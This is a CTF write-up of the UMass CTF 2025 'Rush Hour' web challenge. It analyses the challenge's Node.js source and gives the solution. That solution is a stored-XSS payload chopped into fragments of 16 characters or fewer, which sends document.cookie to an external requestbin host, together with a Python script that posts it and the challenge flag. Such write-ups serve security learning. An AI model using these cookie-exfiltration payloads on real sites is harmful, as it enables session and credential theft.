 ```yaml
---
title: "UMASS CTF 2025"
date: 2025-04-21
categories: [CTF]
tags: [CTF]
---
```


## Rush Hour
![Rush hour](assets/images/umass2025/rush.png)

Rush Hour was a web challenge where a link and zip file was given. Upon downloading the zip file and then unzipping, following file
gets revelad.

![Rush hour](assets/images/umass2025/files.png)

Upon inspecting the files, the basic workflow of the application is you can add notes to the application which gets reflected in the **Your Notes** section. A user gets unique id(uuidv4) which gets set as cookie and is reflected in the url section. Admin can be sent that particualar uuid for admin to vist the page.

![Rush hour](assets/images/umass2025/page.png)

The below code snippet contains the main logic of adding notes
1. if no cookies are you even a user??
```javascript
app.post('/create',async (req,res)=>{
  if(!req.cookies || !req.cookies.user || !(client.exists(req.cookies.user))){
    return res.send("Hmm are you even a user? Go to /");
  } 
```
2. If body has no notem then the follwing response is sent.
``` javascript
if(!req.body.note){
  return res.send("Did not get a note body")
}
```
3. If the user key in cookies has value **admin** and the request is not from localhost then **You're not an admin!** response thrown.
Else if if the admin is not in user cookie and the request is from localhost, **Admins are not allowed to doctor user notes!** response is thrown.
```javascript
if(req.cookies.user.includes("admin") && req.ip != '::ffff:127.0.0.1'){
    return res.send("You're not an admin!")
} else if(!req.cookies.user.includes("admin") && req.ip == '::ffff:127.0.0.1') {
    return res.send("Admins are not allowed to doctor user notes!");
}
```
4. Here basically normal user's notes lenght should not exceed 16 which translates to our payload's length should not be greater than 16. Hence we have to find some way to exfiltrate cookie with the restriction that we've got.
```javascript
// I get to have longer notes!
  if(req.ip === '::ffff:127.0.0.1'){
    if(req.body.note.length > 42) {
      return res.send("Invalid note length!")
    }
  } else {
    if(req.body.note.length > 16) {
      return res.send("Invalid note length!")
    }
  }
  let user_note = await get_cache(req.cookies.user); // get_cache gets all the users' notes
  if(!user_note) {
    return res.send("Problem while fetching notes! Try something else perhaps?")
  }
})
```

5. In gist if you are a normal user your single note can only be of length 16. Hence we have to somehow make payload of length 16 to exfiltrate cookie. 
Another important snippet of code is shown below. When a user visits and **/user/{id}** where is the userid or noteid(can be said any?), if the userid exists in the redis then the user's notes are fetched and sent to front-end. No filtering is done so XSS here is possible.
```javascript
app.get('/user/:id',async (req,res)=>{
  if(!req.params || !(await client.exists(req.params.id))){

    return res.redirect('/')
  }
  let notes = await get_cache(req.params.id);
  if(req.params.id.includes("admin") && req.ip != '::ffff:127.0.0.1'){
    return res.send("You're not an admin!");
  } else if (req.params.id.includes("admin") && req.ip == '::ffff:127.0.0.1' && !banned_fetch_dests.includes(req.headers['sec-fetch-dest'])) {
    res.cookie('supersecretstring', process.env.FLAG);
  }
  res.setHeader('Content-Type', 'text/html');
  const customers = await get_cache(req.params.id + "_cust") + 1;
  await set_cache(req.params.id + "_cust", customers);
  let htmlContent;
  fs.readFile(path.join(__dirname,'public','index.html'), (err, data) => {
      if(err) {
        res.send("Problem creating HTML");
      } else {
        htmlContent = data.toString();
        let content = '<div id="notes">';
        notes.forEach(note => {
          content += "<li>";
          content += note;
          content += "</li>";
        })
        content += '</div>';
        htmlContent = htmlContent.replace('<div id="notes"> </div>', content);
        htmlContent = htmlContent.replace('<div id="customers"> </div>', `<div id="customers"> Customer Count: ${customers}</div>`);
        res.send(htmlContent);
      }
  });
})
```
6. The solution payload would here be to send the following txt file. Here each line is of length less than 16. A function **f** is defined which when given a text returns empty string which is used to comment/remove unnecessary strings. 
```
//payload.txt
<script>/*
*/f=()=>{/*
*/return ''/*
*/}/*
*/;location=f('
')+'https:'+f('
')+'//requ'+f('
')+'estbi'+f('
')+'n.wha'+f('
')+'pi.clo'+f('
')+'ud/11'+f('
')+'40q501'+f('
')+'?x='+f('
')+document[f('
')+'cookie']/*
*/</script>
```
7. The following python code can be used to post notes.
```python
import requests
URL = 'http://rush-hour.ctf.umasscybersec.org/create'
# URL = 'http://localhost:3000/create'
URL_USER = 'http://rush-hour.ctf.umasscybersec.org/user/639b7cb1-45ef-4f35-9033-9df2d6fb1dda'
# requests.get('http://rush-hour.ctf.umasscybersec.org/clear')
with open('payload.txt','r') as p:
    payloads = p.readlines()
    for body in payloads:
        body = body.strip()
        requests.post(URL, headers={
            'Cookie':'user=f3bd63f0-8bdb-44ae-ad89-be5e931cfa33'
        }, data={
            "note": body
        })
```

8. Sending the user_id to admin bot will exfiltrate cookie in the requestbin site. After that following payload can be sent to exfiltrate the flag.
```
<script>/*
*/f=()=>{/*
*/return ''/*
*/}/*
*/;onload=(/*
*/)=>{/*
*/;y=open(/*
*/+f('
')+'../'+f('
')+'../'+f('
')+'../'+f('
')+'../'+f('
')+'user'+f('
')+'/'+f('
')+'4ec7'+f('
')+'fd3a-'+f('
')+'3e8b-'+f('
')+'4f9b-'+f('
')+'8ebe-'+f('
')+'91a2'+f('
')+'77018'+f('
')+'fd3-a'+f('
')+'dmin');/*
*/y.onload=(/*
*/)=>{/*
*/;location=f('
')+'https:'+f('
')+'//requ'+f('
')+'estbi'+f('
')+'n.wha'+f('
')+'pi.clo'+f('
')+'ud/11'+f('
')+'40q501'+f('
')+'?x='+f('
')+document[f('
')+'cookie']/*
*/}}/*
*/</script>
```
9. Flag `UMASS{tH3cl053Rz@re_n0_m@tcH}`